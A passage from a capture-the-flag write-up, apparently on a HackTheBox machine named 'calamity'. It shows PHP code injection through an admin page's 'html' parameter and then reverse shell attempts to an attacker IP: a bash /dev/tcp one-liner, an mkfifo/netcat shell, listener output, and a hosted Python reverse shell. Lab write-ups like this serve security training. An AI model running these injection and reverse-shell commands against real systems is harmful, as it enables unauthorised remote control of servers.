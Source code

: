 ![image-20200824071739021](https://0xdfimages.gitlab.io/img/image-20200824071739021.png)

## Shell as www-data

### Execution

I just showed that PHP is being executed. I can use `system` to run commands.
For example, entering `<?php system("id"); ?>` shows that it’s running as www-
data:

    
    
    root@kali# curl -s -G http://10.10.10.27/admin.php --data-urlencode 'html=<?php system("id"); ?>' --cookie adminpowa=noonecares | sed -e '1,/<\/body><\/html>/ d'
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

I’m using `sed` here to remove all the content up to `</body></html>` at the
end to just get the output. I’m also using `curl` with `-G` and `--data-
urlencode` to url encode parameters in the GET request.

### RevShell Fail

With execution, rather than enumerate through this webshell, I’d rather get a
legit shell. I started `nc` listening on my host, and ran a Bash reverse
shell:

    
    
    root@kali# curl -s -G http://10.10.10.27/admin.php --data-urlencode 'html=<?php system("bash -c \"bash -i >& /dev/tcp/10.10.14.24/443 0>&1\""); ?>' --cookie adminpowa=noonecares
    

I get a connection back, but it immediately dies:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.27.
    Ncat: Connection from 10.10.10.27:47324.
    bash: cannot set terminal process group (1376): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@calamity:/var/www/html$ root@kali#
    

I tried a different reverse shell, but got the same result:

    
    
    root@kali# curl -s -G http://10.10.10.27/admin.php --data-urlencode 'html=<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.24 443 >/tmp/f"); ?>' --cookie adminpowa=noonecares
    

To try a Python reverse shell, rather than try to get the one-liner into
`curl` with all the `'` and `"`, I created a file `rev.py` locally with a
[python reverse shell](https://github.com/infodox/python-pty-
shells/blob/master/tcp_pty_backconnect.py), and hosted it with `python3 -m
http.server 80`.
